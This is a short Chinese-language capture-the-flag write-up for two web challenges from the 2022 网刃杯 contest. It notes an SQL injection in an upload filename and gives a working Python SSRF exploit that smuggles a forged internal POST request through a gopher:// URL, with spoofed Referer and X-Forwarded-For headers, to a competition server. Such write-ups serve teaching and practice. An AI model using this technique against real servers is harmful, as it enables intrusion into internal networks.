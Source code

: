 # 2022-网刃杯-Web-Writeup

## upload

上传文件之后测试filename可以SQL注入，直接报错注flag库即可：

![img](2022-网刃杯-Web-Writeup.assets/Y$H8FXN_S``N0NCS1{AT}D.png)

## Sign_in

有个SSRF，读`/proc/net/arp`看内网，发现`172.73.26.100`需要get传a然后post传b，ip是本地然后从`bolean.club`访问，直接拿以前的脚本发过去就行：

```python
import urllib
import requests
import urllib.parse
import re
url='http://124.222.173.163:20003?url='
test =\
"""POST /?a HTTP/1.1
Host: 172.73.26.100:80
Referer:bolean.club
X-Forwarded-For:127.0.0.1
Content-Type:application/x-www-form-urlencoded
Content-Length:1

b
"""  
tmp = urllib.parse.quote(test)
new = tmp.replace('%0A','%0D%0A')
result = '_'+new
result=urllib.parse.quote(result)
exp='gopher://172.73.26.100:80/'+result
print(requests.get(url=url+exp).text)
```

